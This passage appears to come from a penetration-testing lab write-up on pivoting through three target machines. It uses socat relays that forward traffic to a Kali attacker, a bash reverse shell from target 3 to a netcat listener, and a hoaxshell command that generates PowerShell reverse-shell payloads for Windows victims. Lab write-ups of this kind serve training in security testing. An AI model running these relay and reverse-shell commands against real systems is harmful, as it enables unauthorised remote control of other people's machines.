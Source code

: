 of course, to see webpage via browser we need to reconfigure proxy settings or foxy proxy.

Very good, we can access to target 3 using: `proxychains ssh ubuntu@`\<t3\_nat3>

But we've always the same problem, we can't reach out kali from target 3 and spawn a rev shell.

We can solve it establish a new session of socat on target 2, which will establish a connection starting from machine 2, passing through 1, until arriving at kali.

<pre class="language-bash"><code class="lang-bash">#Target 2
./socat tcp-l:3333,fork,reuseaddr tcp:&#x3C;t1_nat2>:4444 #tcp-l: listening port, send data to tcp:attacker:port
<strong>#Target 1
</strong>./socat tcp-l:4444,fork,reuseaddr tcp:&#x3C;kali_nat1>:2222  #tcp-l: listening port, send data to tcp:attacker:port
</code></pre>

### Reverse Shell

{% embed url="https://www.revshells.com/" %}

We create a  bash reverse shell using target 2 IP machine (on the same subnet of target 3), and listening on kali machine using netcat:

```bash
#Kali
nc -nvlp 2222 #same port of socat on target 1
#Target 3
sh -i >& /dev/tcp/<t2_nat3>/3333 0>&1
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure></div>

Great, we're in target 3 machine!

#### In addition, we can use this tool to create a powershell reverse shell for Windows machine to communicate back to attacker machine (kali).

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

```bash
python hoaxshell.py -s <Victim_IP> -p 9999
```

it generates a reverse shell payload on execute on windows victim machine using powershell.

It permits us to obtain a reverse shell connection with windows victim machine on our attacker kali machine.
